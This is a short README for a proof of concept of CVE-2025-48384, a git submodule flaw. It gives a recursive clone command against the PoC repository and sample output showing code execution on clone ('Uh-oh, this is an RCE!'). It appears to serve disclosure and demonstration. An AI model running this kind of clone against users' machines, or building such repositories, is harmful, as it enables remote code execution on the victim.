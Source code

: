# PoC for CVE-2025-48384

See [CVE-2025-48384](https://dgl.cx/2025/07/git-clone-submodule-cve-2025-48384)

To run:
```
git -c protocol.file.allow=always clone --recurse-submodules git@github.com:liamg/CVE-2025-48384.git
```

Example output:
```
git -c protocol.file.allow=always clone --recurse-submodules CVE-2025-48384 test
Cloning into 'test'...
done.
'ubmodule 'sub' (git@github.com:liamg/CVE-2025-48384-submodule.git) registered for path 'sub
'...ing into '/Users/liamg/bad-clone4/sub
remote: Enumerating objects: 5, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 5 (delta 0), reused 5 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (5/5), done.
Uh-oh, this is an RCE!
```

